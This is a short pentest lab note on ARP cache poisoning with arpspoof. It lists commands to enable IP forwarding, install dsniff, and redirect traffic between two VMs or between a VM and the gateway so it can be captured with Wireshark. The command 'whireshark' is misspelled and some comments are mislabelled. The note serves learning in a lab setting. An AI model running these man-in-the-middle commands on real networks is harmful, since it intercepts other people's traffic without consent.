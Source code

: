 ```yaml
---
title: "Arpspoof Arp Cache Poisoning"
date: 2020-05-02T18:19:48+02:00
tags:
  - hacking
  - arp
  - spoof
  - pentest
---
```


Goal: tricking `arp` cache to redirect network traffic to us "Man in the middle".

- VM1: 192.168.1.244
- VM2: 192.168.1.145
- GW: 192.168.1.1

## Prerequisites

```sh
# Enable ip forwarding
sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
# Install arpspoof (part of dsniff)
sudo apt install dsniff
```

## Listening to traffic between two VMs

```sh
# Checking arp table on VM1/VM2 allow to check IP/Mac
arp -a
# Start redirecting traffic from VM1 to VM2 to us
sudo arpspoof -i eth0 -t $VM1 $VM2
# Start redirecting traffic from VM2 to VM1 to us
sudo arpspoof -i eth0 -t $VM2 $VM1
# Checking arp table on VM1/VM2 allow to check IP/Mac
arp -a
# Using wireshark will allow to check/follow traffic
sudo whireshark
```

## Pretending to be the default gateway

```sh
# Checking arp table allow to check IP/Mac
arp -a
# Start redirecting traffic from VM1 to VM2 to us
sudo arpspoof -i eth0 -t $VM1 $GW
# Start redirecting traffic from VM2 to VM1 to us
sudo arpspoof -i eth0 -t $GW $VM1
# Using wireshark will allow to check/follow traffic
sudo whireshark
```
